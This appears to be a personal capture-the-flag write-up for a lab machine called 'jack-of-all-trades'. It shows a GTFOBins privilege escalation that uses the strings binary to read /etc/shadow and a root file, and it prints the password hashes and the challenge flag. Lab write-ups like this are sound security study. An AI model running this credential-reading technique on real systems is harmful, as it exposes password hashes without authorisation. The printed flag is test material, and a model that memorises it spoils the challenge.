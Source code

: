![[Pasted image 20240712101444.png]]

I think sudobaron, or something, may work as well.

I don't think this is the pass but it's interesting.

![[Pasted image 20240712101736.png]]

I dump passwords with gtfo bins exploit

```php
jack@jack-of-all-trades:~$ /usr/bin/strings /etc/shadow
root:$6$b3.jqCVW$RhHJyUpN81dfuW6J..8rTYX..7msovXxtbwQX4w8SIqxTuGOGpuKVft.1Cw1yvpGiHh2LULov1EA5H2m33dPk/:18321:0:99999:7:::
daemon:*:16550:0:99999:7:::
bin:*:16550:0:99999:7:::
sys:*:16550:0:99999:7:::
sync:*:16550:0:99999:7:::
games:*:16550:0:99999:7:::
man:*:16550:0:99999:7:::
lp:*:16550:0:99999:7:::
mail:*:16550:0:99999:7:::
news:*:16550:0:99999:7:::
uucp:*:16550:0:99999:7:::
proxy:*:16550:0:99999:7:::
www-data:*:16550:0:99999:7:::
backup:*:16550:0:99999:7:::
list:*:16550:0:99999:7:::
irc:*:16550:0:99999:7:::
gnats:*:16550:0:99999:7:::
nobody:*:16550:0:99999:7:::
systemd-timesync:*:16550:0:99999:7:::
systemd-network:*:16550:0:99999:7:::
systemd-resolve:*:16550:0:99999:7:::
systemd-bus-proxy:*:16550:0:99999:7:::
uuidd:*:16550:0:99999:7:::
Debian-exim:!:16550:0:99999:7:::
messagebus:*:16550:0:99999:7:::
statd:*:16550:0:99999:7:::
avahi-autoipd:*:16550:0:99999:7:::
sshd:*:16550:0:99999:7:::
jack:$6$X4GueAFP$m2Ovdp1jLV3OX3B40CkxQd0LTk8l2vLr0UplPHA0gm1e5bzwWLRGyUwnU94TdfWzgRjmhLyXOcacx0SE5VshN1:18321:0:99999:7:::
```

```php
jack@jack-of-all-trades:~$ /usr/bin/strings /root/root.txt
ToDo:
1.Get new penguin skin rug -- surely they won't miss one or two of those blasted creatures?
2.Make T-Rex model!
3.Meet up with Johny for a pint or two
4.Move the body from the garage, maybe my old buddy Bill from the force can help me hide her?
5.Remember to finish that contract for Lisa.
6.Delete this: securi-tay2020_{6f125d32f38fb8ff9e720d2dbce2210a}

```
